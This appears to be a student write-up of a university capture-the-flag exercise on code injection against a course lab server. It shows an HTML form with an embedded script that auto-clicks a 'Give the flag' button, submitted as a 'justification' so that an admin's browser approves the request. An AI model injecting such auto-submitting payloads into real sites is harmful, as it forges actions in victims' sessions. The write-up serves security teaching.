



# **CTF Week #6**

**Objective:** Exploring code injection and the execution context of different web security pages.

**Targeted addresses**: http://ctf-fsi.fe.up.pt:5004

## Challenge

We started this challenge by analyzing the server site given to us in the challenge, we tried to submit a "test justification" and analyzed the pages we were redirected to, we also analyzed the pages used for the "Give the flag" and "Mark request as read" buttons. For this analysis we used the "inspect" function of the web pages, and that's when we came across the following forms: 

``` php
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/d8b3c3ef70611b40683eeb4505353efe69b189fc/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
</form>
```

After this, and realizing that this piece of code alone would not be the correct "justification", we again analyzed the possibilities for "improving" the code. We deactivated the site's JavaScript, as it can, and then added the function inside `script` so that, when we executed the code provided, the site would give us the content inside the "Give the flag" button.

**"Justification" Used**

``` php
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/d8b3c3ef70611b40683eeb4505353efe69b189fc/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
<script>
document.getElementById("giveflag").click();
</script>
</form>
```



When we submitted our "justification" we were redirected to the following site:



After that, we reloaded the site using "CTRL + R" and we were given the flag we wanted to find:

